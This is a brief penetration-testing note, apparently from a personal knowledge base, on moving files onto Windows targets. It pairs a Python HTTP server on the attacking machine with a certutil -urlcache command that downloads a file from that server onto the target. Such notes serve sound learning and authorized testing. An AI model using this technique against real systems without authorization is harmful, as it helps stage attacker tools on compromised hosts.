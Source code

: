 ```yaml
---
up: "[[Transferring Files]]"
---
```


# Transferring Files to Windows Targets

## Demonstration

```bash
python3 -m http.server 80
# dl on windows
>certutil -urlcache -f http://<ip>/<file> <file>
```
